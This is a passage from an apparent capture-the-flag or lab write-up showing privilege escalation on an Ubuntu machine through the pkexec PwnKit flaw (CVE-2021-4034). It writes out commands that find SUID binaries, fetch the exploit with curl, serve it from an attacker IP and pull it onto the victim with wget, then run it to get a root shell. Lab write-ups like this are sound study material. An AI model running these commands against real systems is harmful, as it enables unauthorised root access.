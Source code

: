 ```
$ cat /home/james/local.txt
e0ce00f4126d0271c1f4eb3681cda8f0
$ 
```


### Escalation
`Find suid binaries`  <br/>
* We can find suid binaries we can exploit to gain root
```
$ find / -type f -perm -u=s 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newuidmap
/usr/bin/at
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/newgidmap
/usr/bin/newgrp
/bin/mount
/bin/ping6
/bin/su
/bin/ping
/bin/umount
/bin/fusermount
```
* From the binaries above, I suspected that the `pkexec` service is vulnerable to `CVE-2021-4034`.
* First we download the pkexec exploit on our attacker machine using *curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit* then we can serve the file to the victim machine using `python3 -m http.server 9090`
* We can then download the file to the victim machine using *wget http://192.168.49.241:9090/PwnKit -O /tmp/exploit*
* Once the file is downloaded onto the victim machine, we can now make it executable and run it as follows

```
$ chmod +x exploit
$ ./exploit
ㅤ
$ root@ubuntu-xenial:/tmp# cd /rootㅤ
$ root@ubuntu-xenial:~# ls
ls
proof.txt
ㅤ	ㅤ
$ root@ubuntu-xenial:~# cat proof.txt
d65d877fe77de03f74c3950b76b7683e
ㅤ
$ root@ubuntu-xenial:~#
```
